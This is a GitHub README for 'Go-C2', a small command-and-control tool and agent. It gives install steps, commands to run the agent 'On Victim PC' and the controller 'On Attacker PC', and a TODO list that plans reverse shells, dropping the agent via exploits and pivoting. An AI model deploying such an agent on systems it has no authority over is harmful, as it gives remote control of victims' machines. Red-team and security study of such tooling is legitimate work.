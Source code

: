 

# Go-C2

## What is this? 
This is a fairly small tool I wrote that acts as a sort of C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Make the connection a reverse shell
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
